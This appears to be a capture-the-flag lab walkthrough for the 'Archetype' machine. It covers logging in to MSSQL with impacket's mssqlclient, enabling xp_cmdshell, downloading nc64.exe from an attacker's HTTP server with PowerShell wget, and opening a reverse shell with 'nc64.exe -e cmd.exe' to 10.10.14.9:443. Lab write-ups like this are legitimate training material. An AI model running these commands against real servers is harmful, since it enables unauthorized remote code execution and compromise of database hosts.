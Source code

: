 https://github.com/SecureAuthCorp/impacket

or: 

git clone https://github.com/SecureAuthCorp/impacket.git

cd impacket

pip3 install .

# OR:

sudo python3 setup.py install

# In case you are missing some modules:

pip3 install -r requirements.txt

cd impacket/examples/

python3 mssqlclient.py -h

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
![image](https://github.com/D-spec-sec/Cybersecurity/assets/172300374/cacfa68a-bbc9-4142-b290-dffc746609a8)

Check user: SELECT is_srvrolemember('sysadmin');  

if transalte to 1, true

In previous cheatsheets, we found also how to set up the command execution through the xp_cmdshell :   

xp_cmdshell cheat:

EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell

first as it’s disabled by default:

EXEC sp_configure 'show advanced options', 1; — priv

RECONFIGURE; — priv

EXEC sp_configure 'xp_cmdshell', 1; — priv

RECONFIGURE; — priv


BUT First, check to see if xp_cmdshell is enabled: 

SQL> EXEC xp_cmdshell 'net user';  

if not activated do:

EXEC sp_configure 'show advanced options', 1;

RECONFIGURE;

sp_configure;            ------ Enabling the sp_configure as stated in the above error message

EXEC sp_configure 'xp_cmdshell', 1;

RECONFIGURE;


xp_cmdshell "whoami"  

now to get a foothold. 

uplaod netcat binary: 

https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------

okay to upload the binary to the target: 

start listenr in folder with binary:

sudo python3 -m http.server 80 sudo nc -lvnp 443  

sudo python3 -m http.server 80

sudo nc -lvnp 443


In order to upload the binary in the target system, we need to find the appropriate folder for that. We will be
using PowerShell for the following tasks since it gives us much more features then the regular command
prompt. In order to use it, we will have to specify it each time we want to execute it until we get the reverse
shell. To do that, we will use the following syntax: powershell -c command

The -c flag instructs the powershell to execute the command.

We will print the current working directory by issuing the following:

We found the folder where we will place the binary. To do that, we will use the wget alias within PowerShell

( wget is actually just an alias for Invoke-WebRequest ):

xp_cmdshell "powershell -c pwd"

get to a directory that doesnt need elevation sicne we dont have a shell yet like Downloads on a home directory:

Then run this to uplaod the shell:

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.9/nc64.exe -outfile nc64.exe"  

now to bind the cmd.exe thru nc to our listener:

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.9 443"  
